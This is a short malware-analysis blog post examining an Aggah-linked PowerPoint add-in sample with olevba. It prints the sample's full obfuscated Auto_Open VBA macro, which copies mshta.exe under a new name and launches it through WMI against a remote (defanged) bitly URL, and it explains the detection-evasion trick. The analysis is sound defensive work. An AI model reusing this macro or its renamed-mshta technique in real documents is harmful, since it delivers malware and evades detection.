 ```yaml
---
layout: post
title: "Aggah PPAM macros renaming MSHTA"
date: 2022-03-04
categories: malware
tags: malware ppam macro mshta aggah 
permalink: /aggah-ppam-renamed-mshta/
---
```


In this quick post I'm taking a look at a PowerPoint file with macros on board! According to MalwareBazaar's tags, it was reported in association with the group "Aggah". If you want to follow along at home, the sample is here in MalwareBazaar: [https://bazaar.abuse.ch/sample/6b4970c6016fbff8665932c69d95203863c7ea46ae0f86e02525a4694f60f115/](https://bazaar.abuse.ch/sample/6b4970c6016fbff8665932c69d95203863c7ea46ae0f86e02525a4694f60f115/).

## Triaging the file

As usual, let's make sure we have a valid PPAM file. We can do this a few ways, I'll settle for `file` and `diec` here.

```console
remnux@remnux:~/cases/aggah$ file rfq.ppam 
rfq.ppam: Microsoft PowerPoint 2007+

remnux@remnux:~/cases/aggah$ diec rfq.ppam 
Binary
    Archive: Zip(2.0)[34.9%,36 files]
    Data: ZIP archive
```

The `diec` output might throw some folks off, but it's expected in this case. Office 2007+ documents are a collection of XML files stashed in a structured zip archive.

## Counting macros

To get the macro code, we can employ `olevba`.

```console
remnux@remnux:~/cases/aggah$ olevba rfq.ppam 
olevba 0.60 on Python 3.8.10 - http://decalage.info/python/oletools
===============================================================================
FILE: rfq.ppam
Type: OpenXML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO Module1.bas 
in file: ppt/ueryeur.n - OLE stream: 'VBA/Module1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Sub Auto_Open()
MsgBox "error! Re-install office"
Set kaosk = GetObject("new:0D43FE01-F093-11CF-8940-00A0C9054228")
kaosk.copyfile "C:\Windows\System32\mshta.exe", "C:\\ProgramData\\cond.com", True
kokokasd = "C:mmmmmmmmDLASDLlrogramDatammmmmmmmcond0lol hmotamotaDLASDLls:sexsexmislalmislalmislal0bimotaly0lolsex" + "itjjjskrr"
kokokasd = Replace(kokokasd, "DLASDLl", "p")
kokokasd = Replace(kokokasd, "mislal", "w")
kokokasd = Replace(kokokasd, "mota", "t")
kokokasd = Replace(kokokasd, "0", ".")
kokokasd = Replace(kokokasd, "jdaudwoks", "e")
kokokasd = Replace(kokokasd, "lol", "com")
kokokasd = Replace(kokokasd, "sex", "/")
kokokasd = Replace(kokokasd, "mmmm", "\")
adjaiwdjiaskd = "01n2g2tkokokasd:"
adjaiwdjiaskd = Replace(adjaiwdjiaskd, "0", "W")
adjaiwdjiaskd = Replace(adjaiwdjiaskd, "1", "i")
adjaiwdjiaskd = Replace(adjaiwdjiaskd, "2", "m")
adjaiwdjiaskd = Replace(adjaiwdjiaskd, "kokokasd", "s")
aksdokasodkoaksd = "aksdokasodkoaksd5nooo_Proce66"
aksdokasodkoaksd = Replace(aksdokasodkoaksd, "aksdokasodkoaksd", "W")
aksdokasodkoaksd = Replace(aksdokasodkoaksd, "5", "i")
aksdokasodkoaksd = Replace(aksdokasodkoaksd, "ooo", "32")
aksdokasodkoaksd = Replace(aksdokasodkoaksd, "6", "s")
GetObject(adjaiwdjiaskd). _
Get(aksdokasodkoaksd). _
Create _
kokokasd, _
Null, _
Null, _
pid
End Sub

+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Auto_Open           |Runs when the Excel Workbook is opened       |
|Suspicious|copyfile            |May copy a file                              |
|Suspicious|Create              |May execute file or a system command through |
|          |                    |WMI                                          |
|Suspicious|GetObject           |May get an OLE object with a running instance|
|Suspicious|Windows             |May enumerate application windows (if        |
|          |                    |combined with Shell.Application object)      |
|Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|Suspicious|Base64 Strings      |Base64-encoded strings were detected, may be |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|IOC       |mshta.exe           |Executable file name                         |
+----------+--------------------+---------------------------------------------+
```

There are a few interesting things in the code that stand out. First, a macro runs when PPAM opens because the macro defines a `Auto_Open()` function. Next, the macro copies mshta.exe to `C:\ProgramData\cond.com`. This is a simple and lazy way to evade detection rules that are brittle. Detection rules just checking for `mshta.exe` by name without additional binary property checks will get thrown off by this technique. Next, there looks like a ton of string obfuscation via replacement operations. We can simplify down the obfuscation showing these strings:

```text
kokokasd = "C:\\programData\\cond.com hxxps://www.bitly[.]com/itjjjskrr"
adjaiwdjiaskd = "Winmgmts:"
aksdokasodkoaksd = "Win32_Process"
```

Given these strings we can assume one of the next steps will spawn `cond.com`, the renamed mshta, to visit a bitly link and process malicious content in a HTA file. Judging from the string `Win32_Process`, the name of the WMI Process class, we can assume the `cond.com` process will execute via WMI, making it spawn from `wmiprvse.exe`. From here the trail dried up for me here because it didn't look like the sandboxes got a copy of the HTA. It likely didn't successfully execute or download.

Thanks for reading!